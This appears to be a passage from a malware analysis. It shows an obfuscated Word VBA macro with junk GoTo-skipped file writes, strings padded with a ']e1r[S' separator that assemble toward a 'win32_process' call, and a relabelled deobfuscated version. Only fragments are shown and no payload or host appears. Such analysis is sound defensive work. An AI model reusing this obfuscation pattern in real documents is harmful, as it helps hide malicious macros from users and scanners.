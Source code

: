 ```vb
snahbsd = "]e1r[Sp]e1r[S"
Gj76l2x9aiipmlo = "]e1r[Sro]e1r[S]e1r[Sce]e1r[Ss]e1r[Ss]e1r[S]e1r[S"
   GoTo jrMbHDQr
Dim PJYlEEF As Object
Set PJYlEEF = CreateObject("Scripting.FileSystemObject")
Dim jrMbHDQr As Object
Set jrMbHDQr = PJYlEEF.CreateTextFile("K:\oOLBGHFK\nSNqy.gEYwBNWo")
jrMbHDQr.WriteLine " "
jrMbHDQr.Close
Set PJYlEEF = Nothing
Set jrMbHDQr = Nothing
jrMbHDQr:
Tdi3xyxcbrj_h = "]e1r[S:w]e1r[S]e1r[Sin]e1r[S3]e1r[S2]e1r[S_]e1r[S"
   GoTo CBLCF
Dim oszQNEreI As Object
Set oszQNEreI = CreateObject("Scripting.FileSystemObject")

' Goes on like this for quite a bit...
```
“Relabelled” VBA code:

```vb
Attribute VB_Name = "Zm6erye0ms_u"

Function FUNC_1()
    On Error Resume Next
    VAR_1 = T77vhvocooru69svd.StoryRanges.Item(4 / 4)
       GoTo FILE_1

    Dim FS_OBJ_1 As Object
    Set FS_OBJ_1 = CreateObject("Scripting.FileSystemObject")
    Dim FILE_1 As Object
    Set FILE_1 = FS_OBJ_1.CreateTextFile("K:\ognWFHGLH\axqgNAI.kcbGHdI")
    FILE_1.WriteLine " "
    FILE_1.Close
    Set FS_OBJ_1 = Nothing
    Set FILE_1 = Nothing

    FILE_1:
    STRING_2 = "]e1r[Sp]e1r[S"
    STRING_1 = "]e1r[Sro]e1r[S]e1r[Sce]e1r[Ss]e1r[Ss]e1r[S]e1r[S"
       GoTo FILE_2

    Dim FS_OBJ_2 As Object
    Set FS_OBJ_2 = CreateObject("Scripting.FileSystemObject")
    Dim FILE_2 As Object
    Set FILE_2 = FS_OBJ_2.CreateTextFile("K:\oOLBGHFK\nSNqy.gEYwBNWo")
    FILE_2.WriteLine " "
    FILE_2.Close
    Set FS_OBJ_2 = Nothing
    Set FILE_2 = Nothing

    FILE_2:
    STRING_3 = "]e1r[S:w]e1r[S]e1r[Sin]e1r[S3]e1r[S2]e1r[S_]e1r[S"
       GoTo FILE_3
'    [...]
    FILE_10:
End Function

Function FUNC_2(F2_PARAM_1)
    On Error Resume Next
       GoTo F2_FILE_1
'   [...]
    F2_FILE_4:
```